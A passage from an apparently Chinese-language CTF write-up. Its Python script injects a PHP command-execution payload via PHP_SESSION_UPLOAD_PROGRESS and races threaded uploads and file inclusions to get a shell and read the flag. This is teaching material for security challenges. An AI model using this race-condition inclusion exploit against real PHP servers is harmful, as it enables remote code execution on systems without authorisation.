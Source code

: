 ```php
            'PHP_SESSION_UPLOAD_PROGRESS': "<?php echo 'working';system('cat /flag') ?>"
        }
        cookies = {
            'PHPSESSID': 'chaaa'
        }
        files = {
            'file': ('chaaa.png', b'cha' * 300)
        }
        s.post(url=url, data=data, cookies=cookies, files=files)


def exp(url):
    fileurl = url + 'file.php'
    uploadurl = url + 'upload.php'

    num = threading.active_count()
    # 上传phar文件
    file = {'file': open('./shell.png', 'rb')}
    ret = requests.post(url=uploadurl, files=file)
    # 文件上传条件竞争getshell
    event = threading.Event()
    s1 = requests.Session()
    s2 = requests.Session()
    for i in range(1, 5):
        threading.Thread(target=sess_upload, args=(uploadurl, s1)).start()
    for i in range(1, 5):
        threading.Thread(target=include, args=(fileurl, s2,)).start()
    event.set()
    while threading.active_count() != num:
        pass


if __name__ == '__main__':
    exp(url)
    print('success')

```
从而获取flag<br />![image.png](./images/20231018_0009537872.png)
